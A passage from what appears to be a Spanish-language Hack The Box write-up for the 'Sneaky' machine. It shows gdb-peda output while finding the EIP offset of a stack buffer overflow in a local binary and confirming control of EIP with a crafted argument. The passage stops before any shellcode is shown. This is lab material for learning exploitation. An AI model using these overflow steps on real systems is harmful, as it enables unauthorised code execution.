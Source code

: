 ```bash
Starting program: /home/pro/Escritorio/HTB/Sneaky/exploits/chall 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd730 --> 0x413673 ('s6A')
EDX: 0xffffd3a3 --> 0x413673 ('s6A')
ESI: 0xf7fa9000 --> 0x1e4d6c 
EDI: 0xf7fa9000 --> 0x1e4d6c 
EBP: 0x41712541 ('A%qA')
ESP: 0xffffd320 ("rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
EIP: 0x25415525 ('%UA%')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x25415525
[------------------------------------stack-------------------------------------]
0000| 0xffffd320 ("rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0004| 0xffffd324 ("A%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0008| 0xffffd328 ("%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0012| 0xffffd32c ("uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0016| 0xffffd330 ("A%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0020| 0xffffd334 ("%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0024| 0xffffd338 ("wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
0028| 0xffffd33c ("A%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
"0x25415525" in ?? ()
```
Ya tenemos el `Offset 0x25415525`, asique procedemos a usar `pattern_offset` para averiguar el numero de caracteres en Hexadecimal hasta sobrescribir el `EIP`
```bash
# gdb-peda$ pattern_offset 0x25415525
625038629 found at offset: "362"
```
Ahora vamos a verificar que tenemos el control del EIP para luego pasarle una direccion que apunte a un poco antes de nuestro `SHELLCODE`. 
Para ello vamos a ejecutar el siguiente comando:
```bash
gdb-peda$ r $(python -c 'print "A"*362 + "B"*4')
Starting program: /home/pro/Escritorio/HTB/Sneaky/exploits/chall $(python -c 'print "A"*362 + "B"*4')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd730 --> 0x424242 ('BBB')
EDX: 0xffffd39d --> 0x424242 ('BBB')
```
